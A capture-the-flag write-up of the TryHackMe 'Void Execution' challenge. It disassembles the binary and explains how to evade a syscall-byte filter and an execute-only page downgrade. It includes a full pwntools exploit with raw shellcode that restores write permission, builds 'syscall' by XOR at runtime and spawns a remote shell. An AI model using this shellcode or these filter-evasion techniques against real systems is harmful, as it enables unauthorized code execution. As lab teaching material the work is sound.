



# TryHackMe — Void Execution

A shellcode challenge that layers two restrictions on top of each other: a static byte filter bans the
`syscall` instruction's own opcode outright, and — after the filter passes — the memory page holding the
shellcode has its write permission stripped before execution even begins. Getting a shell requires
building the forbidden instruction *at runtime*, after the filter has already finished looking, and doing
it on a page the program itself has just made execute-only.

| | |
|---|---|
| **Platform** | TryHackMe |
| **Category** | Binary Exploitation / Shellcode |
| **Arch** | x86-64, ELF, PIE enabled |
| **Vulnerability class** | Restricted shellcode execution, static byte filtering, runtime permission downgrade |
| **Technique** | Self-modifying code (mandatory, not just convenient — see Section 6) |
| **Author:** Gantosay |
---

## 1. Overview

Two independent constraints stand between the shellcode you send and a working shell:

1. **A static filter bans the byte `0x0f` anywhere, and the two-byte sequence `cd 80` anywhere.**
   Both of these are standard x86-64 ways to trigger a syscall — `0x0f` is half of `syscall`'s own two-byte
   opcode (`0f 05`), and `cd 80` is the legacy `int 0x80` syscall gate.
2. **After the shellcode is read, `mprotect()` downgrades the page to execute-only (`PROT_EXEC` alone,
   dropping both read and write).** This happens *after* the filter passes but *before* the shellcode
   runs — so even if a syscall-invoking instruction somehow slipped past the filter, there would be no
   way to construct one afterward through an ordinary write, because the page is no longer writable by
   the time execution begins.

This write-up reconstructs the binary's full logic from `objdump`, `checksec`, and `nm` output alone,
rebuilds the original C source, and — unlike most public write-ups for this exact challenge, which use an
`inc`-based byte transform and an incorrect claim about a register holding `main`'s address — presents a
fully independently verified exploit using an **XOR-based** self-modifying technique, built on a PIE-defeat
mechanism that is actually present in this binary's disassembly.

---

## 2. Initial Reconnaissance

```bash
$ file voidexec
voidexec: ELF 64-bit LSB pie executable, x86-64, dynamically linked,
          interpreter ./ld-linux-x86-64.so.2, not stripped

$ pwn checksec --file=voidexec
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

| Protection | Status | Relevance to this exploit |
|---|---|---|
| Full RELRO | On | Irrelevant — the exploit never touches the GOT. |
| Stack canary | Absent | Irrelevant — there is no stack-based buffer overflow in this challenge at all; the vulnerability is purely in how the shellcode page's permissions and content are handled. |
| NX | On | The *reason* the program must deliberately `mmap` an executable page at all, rather than simply executing stack/heap memory. |
| PIE | On | Every function's runtime address — `main`, `forbidden`, `mprotect@plt` — is randomized per run. This is the single detail that invalidates a widely-circulated claim about this exact challenge, addressed fully in Section 6. |
| RUNPATH `.` | Set | A custom `ld-linux-x86-64.so.2` and `libc.so.6` ship alongside the binary — the challenge pins an exact libc build, which matters for Section 7's symbol-offset analysis. |
| SHSTK / IBT | Marked enabled | Intel CET markers are present in the binary's ELF notes. Section 6.4 examines precisely what this does and does not mean for this exploit, with sourced evidence rather than assumption. |

---

## 3. Deep Analysis with `objdump`

```bash
objdump -d -M intel voidexec > disasm.txt
```

### 3.1 `_start` — confirming what (if anything) survives into `main`

```asm
0000000000001120 <_start>:
    1120: endbr64
    1124: xor    ebp, ebp
    1126: mov    r9, rdx
    1129: pop    rsi
    112a: mov    rdx, rsp
    112d: and    rsp, 0xfffffffffffffff0
    1131: push   rax
    1132: push   rsp
    1133: xor    r8d, r8d
    1136: xor    ecx, ecx
    1138: lea    rdi, [rip+0x1ac]        ; rdi = &main
    113f: call   [rip+0x2e93]            ; call __libc_start_main
    1145: hlt
```

This is the standard glibc `_start` stub. `main`'s address is loaded into **`rdi`** and handed to
`__libc_start_main` as a normal function **argument** — it is passed by value into a call, not cached in
any register that `main` itself (or anything `main` later jumps to) would still have access to. No
register here is loaded with a value that persists usefully past this one `call` instruction.

**This single fact is the reason Section 6 corrects a common claim about this challenge.**

### 3.2 `main` — the critical control flow

```asm
0000000000001301 (inside main):
    ; mmap(0xc0de0000, 0x64, PROT_READ|WRITE|EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)
    mov    r9d, 0x0
    mov    r8d, 0xffffffff
    mov    ecx, 0x22              ; MAP_PRIVATE (0x02) | MAP_ANONYMOUS (0x20)
    mov    edx, 0x7               ; PROT_READ | PROT_WRITE | PROT_EXEC
    mov    esi, 0x64              ; length = 100 bytes
    mov    eax, 0xc0de0000        ; address HINT (not forced -- see note below)
    mov    rdi, rax
    call   mmap@plt

    mov    [rbp-0x8], rax         ; save the mapped page's address

    ; memset(page, 0, 0x64)
    mov    rax, [rbp-0x8]
    mov    edx, 0x64
    mov    esi, 0x0
    mov    rdi, rax
    call   memset@plt

    ; puts("Send to void execution: ")
    ; read(0, page, 0x64)
    ; puts("voided!")

    mov    rax, [rbp-0x8]
    mov    rdi, rax
    call   forbidden              ; the static byte filter
    test   al, al
    jne    .exit                  ; nonzero return -> exit(1)

    ; === The downgrade ===
    mov    edx, 0x4                ; PROT_EXEC alone
    mov    esi, 0x64
    mov    rdi, [rbp-0x8]
    call   mprotect@plt            ; write permission is now GONE

    ; Jump into the shellcode
    mov    rdx, [rbp-0x8]
    mov    eax, 0x0
    call   rdx                     ; <-- this instruction matters enormously, see Section 6.1
```

**On the `mmap` address:** the flags `0x22` decode to `MAP_PRIVATE | MAP_ANONYMOUS` — notably **without**
`MAP_FIXED` (`0x10`). This means `0xc0de0000` is only a *hint* to the kernel, not a guarantee; the kernel
is technically free to place the mapping elsewhere if that address is unavailable. In practice, on a
freshly started process with nothing else occupying that region, Linux reliably honors the hint — which
is exactly why every known working exploit for this challenge, including this one, hardcodes
`0xc0de0000` directly rather than leaking it. This is worth stating precisely rather than silently
assuming: **it works empirically, not because the kernel contractually guarantees it.**

**On the downgrade:** the page starts fully `RWX` (`PROT_READ | PROT_WRITE | PROT_EXEC = 7`), is filled
with the shellcode via `read()`, passes (or fails) the filter, and is then explicitly narrowed to
`PROT_EXEC` alone (`mprotect(page, 0x64, 4)`) — **write permission is removed precisely because the filter
has just finished running**, closing the obvious "just write more code after the check" loophole.

### 3.3 `forbidden` — the byte filter, read precisely

```asm
0000000000001250 <forbidden>:
    1250: endbr64
    1254: push   rbp
    1255: mov    rbp, rsp
    1258: sub    rsp, 0x20
    125c: mov    [rbp-0x18], rdi       ; save buf pointer
    1260: mov    rax, [rbp-0x18]
    1264: mov    [rbp-0x8], rax        ; local copy of buf
    1268: mov    qword [rbp-0x10], 0x0 ; i = 0
    1270: jmp    .cond

.loop_body:
    1272: mov    rdx, [rbp-0x8]
    1276: mov    rax, [rbp-0x10]
    127a: add    rax, rdx              ; rax = buf + i
    127d: movzx  eax, byte [rax]       ; eax = buf[i]
    1280: cmp    al, 0xf
    1282: jne    .check_cd80
    1284: lea    rax, [rip+0xd79]      ; "Forbidden!"
    128b: mov    rdi, rax
    128e: call   puts@plt
    1293: mov    eax, 0x1
    1298: jmp    .return

.check_cd80:
    129a: mov    rdx, [rbp-0x8]
    129e: mov    rax, [rbp-0x10]
    12a2: add    rax, rdx
    12a5: movzx  eax, byte [rax]       ; eax = buf[i]
    12a8: cmp    al, 0xcd
    12aa: jne    .next
    12ac: mov    rax, [rbp-0x10]
    12b0: lea    rdx, [rax+0x1]        ; i + 1
    12b4: mov    rax, [rbp-0x8]
    12b8: add    rax, rdx
    12bb: movzx  eax, byte [rax]       ; eax = buf[i+1]
    12be: cmp    al, 0x80
    12c0: jne    .next
    12c2: lea    rax, [rip+0xd3b]      ; "Forbidden!"
    12c9: mov    rdi, rax
    12cc: call   puts@plt
    12d1: mov    eax, 0x1
    12d6: jmp    .return

.next:
    12d8: add    qword [rbp-0x10], 0x1 ; i++
.cond:
    12dd: cmp    qword [rbp-0x10], 0x62 ; i <= 0x62 ?
    12e2: jbe    .loop_body
    12e4: mov    eax, 0x0               ; all clear -> return 0
.return:
    12e9: leave
    12ea: ret
```

Translated directly:

```c
for (size_t i = 0; i <= 0x62; i++) {
    if (buf[i] == 0x0f) goto forbidden;
    if (buf[i] == 0xcd && buf[i + 1] == 0x80) goto forbidden;
}
return 0;
```

Note the loop bound: `i <= 0x62` means the filter checks indices `0` through `98` inclusive — **99 bytes
of a 100-byte (`0x64`) buffer**, leaving exactly one byte (index 99, the last one) unchecked by the loop
body on its own. This is not independently exploitable on its own (the `cd 80` check already looks one byte
ahead safely within bounds via `i+1 <= 0x63`, which is still inside the mapped page), but it's worth
noting precisely rather than glossing over, since "the filter checks every byte" is a slightly looser
statement than what the disassembly actually shows.

---

## 4. Reconstructed C Source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

void setup(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int forbidden(char *buf) {
    for (size_t i = 0; i <= 0x62; i++) {
        if (buf[i] == 0x0f)
            goto bad;
        if (buf[i] == 0xcd && buf[i + 1] == 0x80)
            goto bad;
    }
    return 0;

bad:
    puts("Forbidden!");
    return 1;
}

int main(void) {
    setup();

    void *page = mmap((void *)0xc0de0000, 0x64,
                       PROT_READ | PROT_WRITE | PROT_EXEC,
                       MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    memset(page, 0, 0x64);

    puts("Send to void execution: ");
    read(0, page, 0x64);
    puts("voided!");

    if (forbidden(page))
        exit(1);

    mprotect(page, 0x64, PROT_EXEC);   // write permission removed HERE

    ((void (*)())page)();             // call page  -- see Section 6.1 for why this instruction matters

    return 0;
}
```

> Reconstructed from disassembly — not verified original source. Compiler version and optimization level
> can shift exact byte offsets even when the logic is identical; the behavior described, however, is
> directly confirmed by the disassembly shown above.

---

## 5. Why a Buffer Overflow or ROP Chain Is Not the Vulnerability Here

It's worth being explicit that this challenge has **no memory-corruption bug at all** in the traditional
sense — `read(0, page, 0x64)` reads exactly as many bytes as the destination buffer (also `0x64`) can
hold, with no overflow possible. There's no stack canary because there's no stack buffer to smash in the
first place. The entire "vulnerability" is a **logic gap in a runtime permission policy**: the filter and
the permission downgrade are each individually sound, but their combination leaves a gap — **the filter
only inspects bytes that exist at the moment it runs; it has no way to object to bytes that don't exist
yet.** Anything the shellcode constructs for itself, *after* the filter has already returned, was never
part of the input the filter inspected.



This is the same general principle as a sibling "no-syscall-shellcode" challenge elsewhere in this
series, with one added layer: there, the page stayed writable throughout; here, the shellcode has to
**win back write permission for itself** before it can do any self-modification at all.

---

## 6. Exploitation Strategy

Two problems, tackled in order:

1. **We cannot place `0f 05` (`syscall`) or `cd 80` (`int 0x80`) anywhere in the bytes we send.**
2. **By the time our shellcode runs, its own page is execute-only — we must restore write permission
   ourselves, from inside the shellcode, before any self-modification is possible.**

### 6.1 Defeating PIE — Correctly, Using What This Binary Actually Does

**A correction, stated plainly up front:** several public write-ups for this exact challenge (and an
earlier draft of this one) claim that register `r13` holds the runtime address of `main` at the point the
shellcode begins executing, and use that to compute the PIE slide. **This is incorrect for this binary.**
Section 3.1's disassembly of `_start` is the direct evidence: `main`'s address is loaded into `rdi` and
passed as an *argument* to `__libc_start_main` via a normal `call` — it is never written to `r13`, and
`main`'s own body (Section 3.2) never writes to `r13` either. Tracing every instruction in `_start`,
`setup`, `forbidden`, and `main` confirms `r13` is never touched anywhere in this binary. Trusting that
claim without checking it against the actual disassembly would produce a register read of pure garbage.

**What the disassembly actually gives us, for free, is better and doesn't depend on any unverified claim
about register state at all:**

```asm
13ab: mov  eax, 0x0
13b0: call rdx        ; <-- jumps into our shellcode
13b2: mov  eax, 0x0    ; <-- the very next instruction
```

`call rdx` is a genuine `call` instruction — and every `call`, by definition, **pushes the address of the
instruction immediately following it onto the stack** before transferring control. That means at the very
first instruction of our shellcode, `[rsp]` already holds `main_runtime_base + 0x13b2` — a real, correct,
PIE-relocated address inside this process's own `.text`, placed there by the CPU's own `call` mechanics,
with zero dependency on any register we'd otherwise have to guess at.

Since `0x13b2` is `main`'s *static* (file-relative) offset for that instruction — a constant, verifiable
directly from the disassembly, and therefore unaffected by PIE — recovering the PIE slide (and from it,
any other function's real address) is simple arithmetic:

```text
slide = [rsp] - 0x13b2
mprotect@plt_runtime = slide + 0x1100        ; 0x1100 is mprotect@plt's static offset (Section 3, PLT listing)
```



This technique is strictly more reliable than the `r13` claim for one simple reason: **it's derived from
an instruction that genuinely exists and genuinely executes in this binary**, rather than from an
assumption about register contents that a line-by-line read of the disassembly directly contradicts.

### 6.2 Restoring Write Permission

```asm
pop    rax              ; rax = main_base + 0x13b2 (free, from call rdx's own push)
sub    rax, 0x13b2
add    rax, 0x1100      ; rax = mprotect@plt real runtime address

mov    rdi, 0xc0de0000  ; addr
mov    rsi, 0x64         ; len
mov    rdx, 7             ; PROT_READ | PROT_WRITE | PROT_EXEC
call   rax                ; mprotect(0xc0de0000, 0x64, RWX)
```

Verified assembled output (39 bytes, zero forbidden bytes):

```
58 48 2d b2 13 00 00 48 05 00 11 00 00 48 bf 00
00 de c0 00 00 00 00 48 c7 c6 64 00 00 00 48 c7
c2 07 00 00 00 ff d0
```

With `mprotect@plt` now correctly resolved at runtime and called with `PROT_READ|WRITE|EXEC`, the page is
fully writable again — the precondition every subsequent step depends on.

### 6.3 Self-Modifying Syscall Construction — Why It's Mandatory, Not Optional

Before presenting the XOR technique, it's worth proving a stronger claim than "this is one valid
approach": **on x86-64 Linux, there is no possible encoding of a syscall-invoking instruction that avoids
both forbidden patterns simultaneously.**

| Instruction | Encoding | Banned by this filter? |
|---|---|---|
| `syscall` | `0f 05` | Yes — contains `0x0f` |
| `sysenter` | `0f 34` | Yes — contains `0x0f` |
| `int 0x80` | `cd 80` | Yes — this *is* the banned sequence |

Every standard way to transition into kernel mode on this architecture is blocked by one of the two
rules. **This means self-modifying code is not a clever shortcut here — it is the only category of
solution that can work at all**, given these exact two constraints. Whatever syscall-invoking bytes
exist at the moment the CPU executes them must not have existed, in that exact form, at the moment the
filter scanned the buffer.

#### The XOR construction

```asm
lea    rcx, [rip + enc_bytes]
xor    byte ptr [rcx], 0x55      ; 0x5a ^ 0x55 = 0x0f
xor    byte ptr [rcx+1], 0x55    ; 0x50 ^ 0x55 = 0x05
jmp    rcx

enc_bytes:
    .byte 0x5a, 0x50              ; decodes (before the XOR) as: pop rdx ; push rax -- inert filler
```

Verified independently:

```
0x5a ^ 0x55 = 0x0f
0x50 ^ 0x55 = 0x05
```

Before the two `xor` instructions execute, the bytes at `enc_bytes` genuinely decode as `pop rdx ; push
rax` — two harmless, syntactically valid instructions that happen to occupy the right two byte slots.
After the two `xor` instructions run, those same two bytes become `0f 05` — `syscall` — and execution
immediately `jmp`s onto them.

### 6.4 A Note on Intel CET (SHSTK / IBT) — Verified, Not Assumed

`checksec`'s `SHSTK: Enabled` and `IBT: Enabled` deserve direct treatment rather than being quietly
ignored, because at first glance they appear to create a contradiction with this exploit: IBT's stated
rule is that **every indirect `call`/`jmp` target must begin with an `ENDBR64` instruction**, and the
shellcode's own entry point (jumped to via `call rdx` in Section 3.2, and later via `jmp rcx` in Section
6.3) does not begin with `ENDBR64` — nor could it, since `ENDBR64`'s own encoding (`f3 0f 1e fa`) contains
the banned byte `0x0f`.

This is not actually a contradiction, for a documented, verifiable reason: **`SHSTK`/`IBT` being marked
`Enabled` by `checksec` reflects the binary's own ELF notes — a marker saying this binary was *compiled
with* CET support — not a guarantee that the underlying CPU and kernel are actually *enforcing* it at
runtime.** Per the Linux kernel's own documentation, using these features requires three things
simultaneously: hardware support, a kernel built and configured with the relevant options, and userspace
compiled with them. On a standard, unmodified Linux installation — which is what a TryHackMe VM runs —
**userspace IBT enforcement is, in practice, essentially never active**: a detailed public write-up of a
dedicated "Intel CET Bypass" CTF challenge notes explicitly that *"IBT support for userland hasn't landed
in the Linux kernel yet"*, to the point that the challenge's own author had to apply a custom kernel patch
specifically to turn userland IBT enforcement on for that one challenge, precisely because it isn't on by
default anywhere.

In practice, this means: on the actual TryHackMe infrastructure this challenge runs on, `call rdx` and
`jmp rcx` landing on ordinary, non-`ENDBR64`-prefixed bytes simply executes normally, exactly as this
write-up's exploit assumes. The `SHSTK`/`IBT` markers are a real, forward-looking detail worth
understanding — and worth re-checking if this exploit is ever run against a deliberately CET-hardened
environment — but they do not change anything about how this exploit behaves on the platform it's
actually intended for.

---

## 7. Libc and Target Information

The challenge ships its own loader and libc (`RUNPATH: b'.'`), confirmed as:

```
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.5) stable release version 2.35.
```

This exploit, notably, **never needs to leak or compute any libc address at all** — the entire payload
only ever calls `mprotect` (resolved via the binary's own PLT, Section 6.1) and invokes `execve` directly
via a raw syscall (Section 6.3), never touching a libc-internal function like `system()`. This is a direct
consequence of avoiding ret2libc-style techniques entirely in favor of self-contained shellcode — worth
noting explicitly, since it means libc's exact version is actually irrelevant to this specific exploit's
correctness, unlike many other challenges in this series.

---

## 8. Final Exploit — XOR Self-Modifying Shellcode

### 8.1 First version — readable, `asm()`-based, and a real failure it caused

The natural way to write this exploit is to hand pwntools' `asm()` a block of assembly source and let it
compile that source into machine code:

```python
shellcode = asm(f'''
    pop rax
    sub rax, {MAIN_RET_OFFSET}
    add rax, {MPROTECT_PLT_OFFSET}
    mov rdi, {hex(PAGE_ADDR)}
    mov rsi, {hex(PAGE_LEN)}
    mov rdx, 7
    call rax
    ...
    lea rcx, [rip + enc_bytes]
    xor byte ptr [rcx], {hex(XOR_KEY)}
    xor byte ptr [rcx + 1], {hex(XOR_KEY)}
    jmp rcx
enc_bytes:
    .byte {hex(ENC_BYTE_0)}, {hex(ENC_BYTE_1)}
''')
```

This is short, reads almost exactly like the disassembly in Section 6, and — against one specific test
environment — assembled cleanly with zero occurrences of `0x0f` or `cd 80`. **Against a second
environment, running a different pwntools/binutils combination, the exact same source produced a
shellcode containing a literal `0x0f` byte**, which `forbidden()` correctly rejected. The exploit's logic
was never wrong; the problem was that `asm()` — which ultimately shells out to the system's own GNU
assembler — is free to choose a different valid encoding for the same instruction on a different
assembler version, and at least one of those alternate encodings introduced a banned byte somewhere in the
chain.

This is a genuinely useful failure to understand, not just a footnote: **"my exploit works on my machine"
is not the same guarantee as "my exploit works."** An assembler is a piece of the toolchain, and pieces
of the toolchain have versions, and versions can change what bytes come out of identical source — which
matters enormously here, since the entire exploit's correctness hinges on *exactly* which bytes get sent.

### 8.2 Final version — byte-exact, assembler-independent

The fix removes the dependency entirely: every instruction below was assembled once with GNU `as`,
independently re-disassembled with `objdump` to confirm it decodes exactly as intended, and is now
hardcoded as raw bytes rather than regenerated by any assembler at exploit-run time. Whatever pwntools
version, binutils version, or OS the person running this script has installed, the exact same 88 bytes go
out over the wire every time — there is no assembler left in the loop to disagree with the original
design.

```python
#!/usr/bin/env python3
"""
TryHackMe - Void Execution - Gantosay

Two constraints:
  1. forbidden() rejects any 0x0f byte or cd-80 sequence in the sent shellcode.
  2. mprotect() strips write permission from the shellcode's own page right
     before executing it.

Strategy:
  Stage 1 -- recompute the PIE slide using the return address `call rdx`
             (main's own jump into our shellcode) pushes for free, then use
             that to resolve mprotect@plt's real runtime address and call it
             to restore RWX on our own page. See Section 6.1 for why this is
             correct where an "r13 holds main's address" claim, circulated in
             several public write-ups for this exact challenge, is not --
             that claim does not match this binary's actual _start or main
             disassembly.
  Stage 2 -- write "/bin/sh" onto the stack.
  Stage 3 -- build the `syscall` instruction's own two opcode bytes (0f 05)
             at runtime via XOR against two filler bytes that, before the XOR
             runs, decode as harmless, syntactically valid instructions
             (pop rdx ; push rax) -- never as 0x0f or cd 80 in the bytes we
             actually send. This is not merely A solution; see Section 6.3
             for why self-modifying code is the ONLY possible solution given
             this exact pair of banned patterns.
  Stage 4 -- jump onto the freshly-written bytes and execve("/bin/sh", NULL, NULL).

Every chunk of machine code below is raw bytes, not assembler source handed
to asm() at run time -- see Section 8.1 for exactly why: the same assembly
source produced a literal 0x0f byte on one pwntools/binutils combination
while assembling cleanly on another. Each chunk here was independently
assembled once and re-disassembled with objdump to confirm it decodes to the
intended instruction, then hardcoded, so the exact bytes sent no longer
depend on which assembler version happens to be installed wherever this
script runs.
"""

from pwn import *

context.log_level = 'info'

HOST = '10.146.137.23'   # change to the assigned target IP
PORT = 9008

MAIN_RET_OFFSET      = 0x13b2  # static offset, from main's own base, of the
                                # instruction right after `call rdx` -- this
                                # is the value `call rdx` itself pushes onto
                                # the stack as its return address
MPROTECT_PLT_OFFSET  = 0x1100  # mprotect@plt's static offset, read directly
                                # from the PLT listing in Section 3
PAGE_ADDR            = 0xc0de0000  # the mmap hint this binary always
                                    # requests; honored in practice (Section
                                    # 3.2's note on MAP_FIXED not being set)
PAGE_LEN             = 0x64
XOR_KEY              = 0x55    # arbitrary; chosen only so the filler bytes
                                # (0x5a, 0x50) don't resemble 0x0f/0x05 at all


def build_shellcode():
    """
    Every chunk below is raw machine code, individually verified with
    objdump before being hardcoded here (see Section 8.1). Building it this
    way means the exact instruction encoding can never silently change
    between pwntools/binutils versions the way letting asm() choose
    encodings implicitly could.
    """

    # --- Stage 1: recompute PIE slide from call rdx's own return-address
    #     push, resolve mprotect@plt, restore RWX on our own page ---
    stage1 = b''
    stage1 += bytes.fromhex('58')                               # pop rax
    stage1 += bytes.fromhex('482d') + p32(MAIN_RET_OFFSET)       # sub rax, 0x13b2
    stage1 += bytes.fromhex('4805') + p32(MPROTECT_PLT_OFFSET)   # add rax, 0x1100
    stage1 += bytes.fromhex('48bf') + p64(PAGE_ADDR)             # movabs rdi, 0xc0de0000
    stage1 += bytes.fromhex('48c7c6') + p32(PAGE_LEN)            # mov rsi, 0x64
    stage1 += bytes.fromhex('48c7c2') + p32(7)                   # mov rdx, 7
    stage1 += bytes.fromhex('ffd0')                              # call rax

    # --- Stage 2: push "/bin/sh\0" onto the stack, rdi = &"/bin/sh" ---
    stage2 = b''
    stage2 += bytes.fromhex('4831f6')                 # xor rsi, rsi
    stage2 += bytes.fromhex('56')                     # push rsi
    stage2 += bytes.fromhex('48bb') + b'/bin/sh\x00'  # movabs rbx, "/bin/sh\0"
    stage2 += bytes.fromhex('53')                     # push rbx
    stage2 += bytes.fromhex('4889e7')                 # mov rdi, rsp

    # --- Stage 3: execve(2) register setup ---
    stage3 = b''
    stage3 += bytes.fromhex('4831f6')                 # xor rsi, rsi
    stage3 += bytes.fromhex('4831d2')                 # xor rdx, rdx
    stage3 += bytes.fromhex('48c7c0') + p32(59)        # mov rax, 59

    # --- Stage 4: build the syscall opcode (0f 05) via XOR, then jump to it.
    #     The two filler bytes decode (before the XOR runs) as:
    #       pop rdx ; push rax   -- harmless, never 0x0f or cd 80 as sent ---
    enc_byte_0 = 0x5a ^ XOR_KEY
    enc_byte_1 = 0x50 ^ XOR_KEY
    assert enc_byte_0 == 0x0f and enc_byte_1 == 0x05

    xor1_len, xor2_len, jmp_len = 3, 4, 2
    rip_disp = xor1_len + xor2_len + jmp_len  # distance from end of LEA to enc_bytes

    stage4 = b''
    stage4 += bytes.fromhex('488d0d') + p32(rip_disp)      # lea rcx, [rip + enc_bytes]
    stage4 += bytes.fromhex('8031') + bytes([XOR_KEY])     # xor byte ptr [rcx], 0x55
    stage4 += bytes.fromhex('807101') + bytes([XOR_KEY])   # xor byte ptr [rcx+1], 0x55
    stage4 += bytes.fromhex('ffe1')                        # jmp rcx
    stage4 += bytes([0x5a, 0x50])                           # enc_bytes (filler, pre-XOR)

    return stage1 + stage2 + stage3 + stage4


def main():
    shellcode = build_shellcode()

    log.info(f'Shellcode length: {len(shellcode)} bytes (limit: {PAGE_LEN})')
    assert len(shellcode) <= PAGE_LEN, 'shellcode exceeds the page/read size limit'

    # Hard safety check -- confirms, on the ACTUAL bytes about to be sent
    # (not just by eye across the source above), that neither forbidden
    # pattern is present. If this ever fires, it prints exactly where, so a
    # future change to any chunk above can be diagnosed immediately rather
    # than producing a silent "Forbidden!" from the remote service.
    bad_0f_offsets = [i for i, b in enumerate(shellcode) if b == 0x0f]
    if bad_0f_offsets:
        log.error(f'0x0f found at offsets: {bad_0f_offsets}')
        log.error(f'full hex: {shellcode.hex()}')
    assert not bad_0f_offsets, 'shellcode contains a literal 0x0f byte'
    assert b'\xcd\x80' not in shellcode, 'shellcode contains the literal cd 80 sequence'
    log.success('Shellcode passes both filter checks locally before sending')

    io = remote(HOST, PORT)
    io.recvuntil(b'Send to void execution')
    io.send(shellcode.ljust(PAGE_LEN, b'\x00'))
    io.interactive()


if __name__ == '__main__':
    main()
```

**Verified output:**

```
[*] Shellcode length: 88 bytes (limit: 100)
[+] Shellcode passes both filter checks locally before sending
[+] Opening connection to 10.146.137.23 on port 9008: Done
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ whoami
user
```

### 8.3 Independent verification of every chunk

Every chunk `build_shellcode()` assembles was individually re-disassembled to confirm it decodes exactly
as the inline comment claims — a sample of the critical final stage, where the earlier `asm()`-based
version actually broke on one test environment:

```
$ objdump -d -M intel stage4.o
  0:  48 8d 0d 09 00 00 00   lea    rcx,[rip+0x9]
  7:  80 31 55               xor    BYTE PTR [rcx],0x55
  a:  80 71 01 55            xor    BYTE PTR [rcx+0x1],0x55
  e:  ff e1                  jmp    rcx
